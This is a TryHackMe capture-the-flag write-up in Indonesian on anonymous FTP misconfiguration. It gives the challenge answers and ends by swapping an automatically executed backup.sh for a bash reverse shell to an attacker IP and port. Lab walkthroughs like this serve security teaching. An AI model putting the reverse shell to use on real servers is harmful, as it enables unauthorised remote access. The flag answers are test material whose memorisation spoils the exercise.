



# Day 9 | Anyone can be Santa!

`TryHackMe` `Networking` `FTP` `Anonymous login`

---

## Learning Outcomes

Hasil pembelajaran

- Menggunakan FTP dan dasar-dasar FTP Commands 
- Mengetahui kesalahan umum pada konfigurasi FTP
- Privilege Escalation via Automated Script 

## Summary
 
 tldr;
 
 - Masuk ke FTP server dari mesin yang di deploy, gunakan anonymous login
 - Identifikasi folder yang dapat diakses secara penuh oleh user saat ini (anonymous)
 - Lakukan injeksi pada file script otomatis di folder tersebut dengan reverse shell.
 - Upload kembali file yang telah di injeksi lalu setup dan tunggu listener.
 - Ambil flag di /root/flag.txt

## Story

>Even Santa has been having to adopt the "work from home" ethic in 2020. To help Santa out, Elf McSkidy and their team created a file server for The Best Festival Company (TBFC) that uses the FTP protocol. However, an attacker was able to hack this new server. Your mission, should you choose to accept it, is to understand how this hack occurred and to retrace the steps of the attacker.

## Write-up

Sampai saat ini, File Transfer Protokol atau FTP masih banyak digunakan diluar sana untuk file sharing atau bahkan mengupdate websitenya, baik file untuk tampilan maupun konfigurasinya melalui FTP.

Selain protokol ini tidak di enkripsi, kesalahan konfigurasi pada FTP server dapat memperparah ancaman terhadap keamanannya.

Pada task kali ini akan di tunjukkan beberapa kesalahan konfigurasi yang dimaksud.


### Q1 : Name the directory on the FTP server that has data accessible by the "anonymous" user ?

Mesin yang di deploy memiliki FTP server yang dapat diakses secara *anonymous*.

Dengan menggunakan perintah `dir` atau `ls`, terlihat ada satu folder dimana user saat ini (*anonymous*) memiliki  kontrol penuh terhadapnya (*read, write, execute*). Folder tersebut adalah `public`



### Q2 : What script gets executed within this directory?
 
Di dalam folder `public` terdapat dua file, yang pertama adalah shell script `backup.sh` dan yang kedua adalah text file `shoppinglist.txt`

Dengan perintah FTP `mget`, kita dapat men-download kedua file tersebut sekaligus.




- `backup.sh`

    ```
    #!/bin/bash

    # Created by ElfMcEager to backup all of Santa's goodies!

    # Create backups to include date DD/MM/YYYY
    filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

    # Backup FTP folder and store in elfmceager's home directory
    tar -zcvf /home/elfmceager/$filename /opt/ftp

    # TO-DO: Automate transfer of backups to backup server
    ```

Berdasarkan informasi yang ada pada task ini, shell script di atas dieksekusi secara otomatis. 

Selanjutnya konten dari file `shoppinglist.txt` digunakan untuk menjawab pertanyaan dibawah.

### Q3: What movie did Santa have on his Christmas shopping list?

Berikut isi filenya :

- `shoppinglist.txt`
    ```
    $ cat shoppinglist.txt
    The Polar Express Movie
    ```

### Q4 : Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

Sebelumnya, kita telah melihat bahwa user anonymous mempunyai full control terhadap folder `public` yang ada pada FTP Server. Di dalam folder tersebut terdapat sebuah shell script yang dieksekusi secara berkala (otomatis).

Berdasarkan hal tersebut, mengganti isi kode dari shell script dengan baris kode untuk melakukan koneksi balik (*reverse shell*) adalah hal yang memungkinkan.

`backup.sh` :

```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.9.30.115/9000 0>&1'
```


## Tips : Quick & Dirty Bash Reverse Shell Generator




